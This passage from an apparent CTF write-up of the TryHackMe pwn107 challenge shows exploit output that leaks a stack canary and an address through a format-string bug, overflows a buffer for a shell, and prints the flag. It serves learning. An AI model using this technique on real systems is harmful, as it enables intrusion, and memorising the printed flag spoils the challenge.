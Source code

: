 Nice.

## Remote Exploitation

Trying to run the exploit remotely.

```bash
$ ./exploit 
[+] Opening connection to 10.10.218.76 on port 9007: Done
[+] #### Stage 1: Leak The Memory ####
[*] canary: 0xcb26e9f197ff1700
[*] vaddr_leaked: 0x7ffea29d8258
[+] #### Stage 2: Buffer Overflow ####
[*] base_vaddr: 0x7ffea29d78c6
[*] get_streak_vaddr: 0x7ffea29d8227
[*] Switching to interactive mode
@\x9b\x10v\xf1\x7f

[Few days latter.... a notification pops up]

Hi pwner 👾, keep hacking👩‍💻 - We miss you!😢
[*] Got EOF while reading in interactive
$ ls
$ ls
[*] Closed connection to 10.10.218.76 port 9007
[*] Got EOF while sending in interactive

```

There is a problem, remotely it doesn't work. It could be a problem with the offset of the *virtual memory address*, because `0x7ffea29d8227` seems to be more of a *libc memory address*.

It tries iteratively increasing the `vaddr_offset` (see the [script](#script)) and for `vaddr_offset = 19` it gives the expected result:

```bash
$ ./exploit 
[+] Opening connection to 10.10.218.76 on port 9007: Done
[+] #### Stage 1: Leak The Memory ####
[*] canary: 0xf59bb14e672b4d00
[*] vaddr_leaked: 0x565115bba992
[+] #### Stage 2: Buffer Overflow ####
[*] base_vaddr: 0x565115bba000
[*] get_streak_vaddr: 0x565115bba961
[*] Switching to interactive mode
@[_\xb4\xba\x7f

[Few days latter.... a notification pops up]

Hi pwner 👾, keep hacking👩‍💻 - We miss you!😢
This your last streak back, don't do this mistake again
$ ls
flag.txt
pwn107
pwn107.c
$ cat flag.txt
THM{whY_i_us3d_pr1ntF()_w1thoUt_fmting??}
$  

```

GG :3

---

[https://github.com/apaonessaa](https://github.com/apaonessaa)
